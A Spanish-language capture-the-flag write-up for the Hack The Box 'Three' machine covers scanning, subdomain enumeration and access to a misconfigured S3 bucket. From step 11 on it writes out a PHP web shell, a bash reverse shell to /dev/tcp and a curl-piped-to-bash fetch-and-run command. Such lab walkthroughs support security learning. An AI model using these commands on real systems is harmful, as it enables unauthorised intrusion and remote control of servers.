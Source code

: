 1. **Escaneamos los puertos averiguando los servicios que corren. El `-v` es para que me vaya diciendo a tiempo real lo que va encontrando.**
```bash
nmap -sVC -v [target IP]
```
--> 22/tcp - open - ssh
--> 80/tcp - open - http

2. **Entramos desde nuestro navegador a la IP de la máquina objetivo ya que vemos que tiene el puerto HTTP abierto.**
--> Vemos una página estática con compras de tickets para conciertos de una banda.

3. **Vamos a instalar una extensión para nuestro navegador llamada Wappalyzer. Con esta extensión, vamos a ver las tecnologías que está usando esta página.**
--> Vemos que la página está escrita en PHP.

4. **Nos movemos por la web y la investigamos y descubrimos que tienen un correo electrónico con un dominio. El dominio es `thetoppers.htb`, así que vamos a añadir este dominio a nuestro archivo `/etc/hosts` con la IP de la máquina objetivo.**
```bash
sudo nano /etc/hosts

[target IP]    thetoppers.htb
```

5. **Ahora, vamos a hacer una enumeración de los subdominios de la página.** 
Vamos a usar [[Gobuster]] pero en vez de enumerar los directorios de la web, vamos a enumerar los subdominios que tenga. 
Para eso, tenemos que usar otra wordlist a la que estamos acostumbrados a usar para encontrar subdominios DNS típicos. Vamos a buscar una buena wordlist como las de SecLists: https://github.com/danielmiessler/SecLists.git.
En vez de usar la opción `dir`, usamos la opción `vhost`.
Como en mi caso tengo una versión de Gobuster superior a la 3.2.0, tengo que usar el `--append-domain` para tener en cuenta el vHost conocido (`thetoppers.htb` en este caso) y agregarle las palabras que se encuentren (`word.thetoppers.htb`).
```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```
--> Como resultado obtenemos lo siguiente:
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

6. Voy a añadir a mi archivo `/etc/hosts` este subdominio que he encontrado.
```bash
sudo nano /etc/hosts

[target IP]   s3.thetoppers.htb
```
--> Vemos el resultado `{"status": "running"}` en JSON.

7. Buscamos en Google qué es un subdominio s3 que esté en el estado "running" y encontramos que S3 es un cubo o contenedor de AWS (Amazon Web Services).

8. **Vamos a instalar y configurar la herramienta [[Awscli]] para interactuar con este contenedor S3.**
```bash
#Instalamos awscli
sudo apt install awscli

#Configuramos awscli de forma arbitraria 
aws configure

AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

9. Ahora podemos listar los contenedores S3 que está hosteando el servidor con `ls`
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```
--> 2024-11-03   16:07:12   thetoppers.htb

10. Al saber qué contenedor S3 está hosteando el servidor, vamos a listar los objetos que están en ese contenedor.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
--> Vemos que hay un directorio llamado `images/`, un archivo llamado `.htaccess` y el archivo `index.php`. Esto nos indica que aquí se está almacenando los archivos del servidor web que está corriendo por el puerto 80. Este es el directorio raíz del servidor web.

Como antes comprobamos con la extensión que la página está escrita en PHP, vamos a intentar:
1. Subir un archivo Shell PHP a este contenedor S3
2. Acceder a la web para que se ejecute el código que acabamos de subir
3. Ejecutar una consola

11. Creamos el archivo PHP que vamos a subir
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

12. Copiamos el archivo al contenedor S3 con `cp`
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
--> upload: ./shell.php to s3://thetoppers.htb/shell.php

13. Confirmamos que nuestra consola se ha subido entrando al enlace http://thetoppers.htb/shell.php y cambiandolo para probar comandos en la consola que hemos creado.
```bash
http://thetoppers.htb/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 

http://thetoppers.htb/shell.php?cmd=ls
images index.php shell.php 

http://thetoppers.htb/shell.php?cmd=whoami
www-data
```
--> Como nos está dando resultados, hemos confirmado que nuestra consola funciona y ahora tenemos una reverse-shell.

A través de una Reverse-Shell, podemos a hacer que el servidor se conecte a nuestra máquina local por el puerto de escucha que configuremos.

14. **Creamos un nuevo archivo llamado `shell.sh` que contendrá el Payload de la Reverse-Shell con el cual el servidor se conectará a nuestra máquina local por el puerto 1337.**
```bash
sudo nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/[My IP]/1337 0>&1
```
--> Le añadimos ese script al archivo.

15. Ahora vamos a empezar a escuchar por nuestro puerto 1337 con NetCat.
El `-n` es para que sea solo numérico (solo direcciones IPs, no DNS)
El `-v` es para que sea "verbose" y vaya explicando lo que va escuchando
El `-l` es para poner el modo "listening" (escucha)
El `-p` es para indicar el puerto por el que vamos a escuchar
```bash
nc -nvlp 1337
```

16. Abrimos otra pestaña en la terminal y vamos a arrancar un servidor web en nuestra máquina local, en el puerto 8000, que aloje este `shell.sh`.  Este servidor tenemos que arrancarlo en el mismo directorio donde tengamos el archivo `shell.sh`. En mi caso, lo tengo en `/home/kali` (mi directorio raíz de mi usuario), así que voy hasta allí y ejecuto el siguiente comando:
```bash
python3 -m http.server 8000
```

17. Ahora vamos a la URL donde teníamos la Shell de PHP y le hacemos un `curl` a la dirección del Payload `shell.sh` de nuestra máquina local.
```bash
#El %20 es un espacio
http://thetoppers.htb/shell.php?cmd=curl%20[My IP]:8000/shell.sh|bash
```
--> Con la URL accedemos al recurso `shell.sh` y con la tubería y el comando `bash`, lo ejecutamos y al ir a la pestaña donde tenemos el NetCat escuchando, obtenemos la Reverse-Shell.
--> **MACHINE PWNED!**

18. Ya podemos movernos por la consola y buscar y encontramos la flag en /var/www/. La capturamos con:
```bash
cat /var/www/flag.txt
```
